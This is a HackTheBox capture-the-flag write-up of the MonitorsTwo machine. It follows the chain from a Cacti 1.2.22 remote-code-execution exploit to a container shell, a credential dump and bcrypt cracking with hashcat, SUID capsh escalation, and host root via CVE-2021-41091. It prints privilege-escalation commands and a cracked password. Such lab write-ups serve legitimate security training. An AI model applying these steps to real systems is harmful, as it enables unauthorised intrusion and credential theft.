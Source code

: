 ```yaml
---
layout: post
title:  "Writeup of MonitorsTwo (HackTheBox)"
date:   2023-11-18 18:06:00 +0000
categories: hackthebox
author: brun0ne
tags: htb hackthebox monitorstwo cacti hashcat
---
```


# Cacti
There is **Cacti** running on **:80**

```
var cactiVersion='1.2.22';
```

[Known vulnerability for 1.2.2](https://github.com/FredBrave/CVE-2022-46169-CACTI-1.2.22)

`entrypoint.sh`

# www-data enum

We get a reverse shell as **www-data** in some docker container.

`entrypoint.sh`

```
#!/bin/bash
set -ex

wait-for-it db:3306 -t 300 -- echo "database is connected"
if [[ ! $(mysql --host=db --user=root --password=root cacti -e "show tables") =~ "automation_devices" ]]; then
    mysql --host=db --user=root --password=root cacti < /var/www/html/cacti.sql
    mysql --host=db --user=root --password=root cacti -e "UPDATE user_auth SET must_change_password='' WHERE username = 'admin'"
    mysql --host=db --user=root --password=root cacti -e "SET GLOBAL time_zone = 'UTC'"
fi

chown www-data:www-data -R /var/www/html
# first arg is `-f` or `--some-option`
if [ "${1#-}" != "$1" ]; then
        set -- apache2-foreground "$@"
fi

exec "$@"
```

`config.php`

```
$database_type     = 'mysql';
$database_default  = 'cacti';
$database_hostname = 'db';
$database_username = 'root';
$database_password = 'root';
$database_port     = '3306';
$database_retries  = 5;
$database_ssl      = false;
$database_ssl_key  = '';
$database_ssl_cert = '';
$database_ssl_ca   = '';
$database_persist  = false;
```

`If we try:`

```
mysql -h db -P 3306 -u root -p cacti
Enter password: asdasd
ERROR 1045 (28000): Access denied for user 'root'@'172.19.0.3' (using password: YES)
```

so **db -> 172.19.0.3**

# Dumping the db

`mysqldump -h db -P 3306 -u root -p cacti > /tmp/dump.sql`

*password: root*

**Dumping data for table user_auth:**

```
admin:Jamie Thompson:admin@monitorstwo.htb:$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C

guest:Guest Account::43e9a4ab75570f5b

marcus:Marcus Brune:marcus@monitorstwo.htb:$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C
```

**Hashes cracked using:**

`.\hashcat.exe .\hash.txt -m 3200 --wordlist rockyou.txt -w 3`

```
$2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C:funkymonkey
```

**There is an interestring SUID binary:**
```
-rwsr-xr-x 1 root root 31K Oct 14  2020 /sbin/capsh
```

So we can get **root** inside this container:

`capsh --gid=0 --uid=0 --`

**Container info:**

```
( Enumerating Container )
[+] Container ID ............ 50bca5e748b0
[+] Container Full ID ....... 50bca5e748b0e547d000ecb8a4f889ee644a92f743e129e52f7a37af6c62e51e
[+] Container Name .......... Could not get container name through reverse DNS
[+] Container IP ............ 172.19.0.3 
[+] DNS Server(s) ........... 127.0.0.11 
[+] Host IP ................. 172.19.0.1
[+] Operating System ........ GNU/Linux
[+] Kernel .................. 5.4.0-147-generic
[+] Arch .................... x86_64
[+] CPU ..................... AMD EPYC 7302P 16-Core Processor
[+] Useful tools installed .. Yes
```

# SSH - marcus

`ssh marcus@10.10.11.211` with **marcus:funkymonkey** works!

`user.txt: <redacted>`

# Enumeration
```
[-] Listening TCP:
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.1:8080          0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
```

`/var/mail/marcus`

```
From: administrator@monitorstwo.htb
To: all@monitorstwo.htb
Subject: Security Bulletin - Three Vulnerabilities to be Aware Of

Dear all,

We would like to bring to your attention three vulnerabilities that have been recently discovered and should be addressed as soon as possible.

CVE-2021-33033: This vulnerability affects the Linux kernel before 5.11.14 and is related to the CIPSO and CALIPSO refcounting for the DOI definitions. Attackers can exploit this use-after-free issue to write arbitrary values. Please update your kernel to version 5.11.14 or later to address this vulnerability.

CVE-2020-25706: This cross-site scripting (XSS) vulnerability affects Cacti 1.2.13 and occurs due to improper escaping of error messages during template import previews in the xml_path field. This could allow an attacker to inject malicious code into the webpage, potentially resulting in the theft of sensitive data or session hijacking. Please upgrade to Cacti version 1.2.14 or later to address this vulnerability.

CVE-2021-41091: This vulnerability affects Moby, an open-source project created by Docker for software containerization. Attackers could exploit this vulnerability by traversing directory contents and executing programs on the data directory with insufficiently restricted permissions. The bug has been fixed in Moby (Docker Engine) version 20.10.9, and users should update to this version as soon as possible. Please note that running containers should be stopped and restarted for the permissions to be fixed.

We encourage you to take the necessary steps to address these vulnerabilities promptly to avoid any potential security breaches. If you have any questions or concerns, please do not hesitate to contact our IT department.

Best regards,

Administrator
CISO
Monitor Two
Security Team
```

**CVE-2021-41091** seems to be the right choice, [there is a PoC](https://github.com/UncleJ4ck/CVE-2021-41091).

Running `chmod u+s /bin/bash` as **root** on the **50bca5e748b0** container, and then runnig the PoC - we get root.

`root.txt: <redacted>`